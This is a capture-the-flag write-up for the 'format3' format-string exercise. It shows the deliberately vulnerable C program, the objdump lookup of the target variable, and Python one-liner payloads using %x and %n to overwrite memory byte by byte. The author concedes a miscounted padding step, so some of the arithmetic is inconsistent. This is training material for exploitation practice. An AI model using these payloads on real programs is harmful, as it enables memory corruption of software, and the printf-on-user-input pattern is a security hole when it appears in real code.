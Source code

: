 # format3

## Enumeration
The code:
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

Finding the location of target in memory:
```bash
objdump -d format3 | grep .bss

080496e8 l    d  .bss   00000000              .bss
080496ec l     O .bss   00000001              completed.5982
080496f0 l     O .bss   00000004              dtor_idx.5984
080496e8 g       *ABS*  00000000              __bss_start
080496e8 g     O .bss   00000004              stdin@@GLIBC_2.0
080496f4 g     O .bss   00000004              target
```

## Exploitation
Clearly I'm overwriting target. The problem is that 0x01025544 (which is 16930116)is a very big number. I can actually write specific values to each byte by doing the following:
```
0x080496f4	0x44
0x080496f5		0x55
0x080496f6			0x02
0x080496f7				0x01
==============================================
			0x01025544
```
Ok, lets see how many bytes I'm forced to write the target.
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "%x."*12 + "%n."' | ./format3

target is 0000007f :(
```
Getting 0x44 is not possible. But I can wrap the byte around as 0x144. I just need to do some basic arithmetic to determine what the buffer space should be.
```bash
python -c 'print 0x144 - 0x7f + 0x8'

205
```
Using this in the payload:
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "%x."*11 + "%246x." + "%n."' | ./format3

target is 00000144 :(
```
Next, you add padding for each memory location in order to write to them. Then its simple rinse and repeat. Below are all the python arithmetic to calculate the whitespace and below that is the final payload.
```bash
python -c 'print 0x55 - 0x44'
17

python -c 'print 0x02 - 0x55'
-83

python -c 'print 0x102 - 0x55'
173

python -c 'print 0x01 - 0x02'
-1

python -c 'print 0x101 - 0x02'
255
```
Somewhere along the way I miss calculated by a factor of 2 so all the whitespace padding are decremented by 2 in my final payload. 
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "BBBB" + "\xf5\x96\x04\x08" + "CCCC" + "\xf6\x96\x04\x08" + "DDDD" + "\xf7\x96\x04\x08" + "%x."*11 + "%205x." + "%n." + "%15x." + "%n." + "%171x." + "%n." + "%253x." + "%n."' | ./format3
```
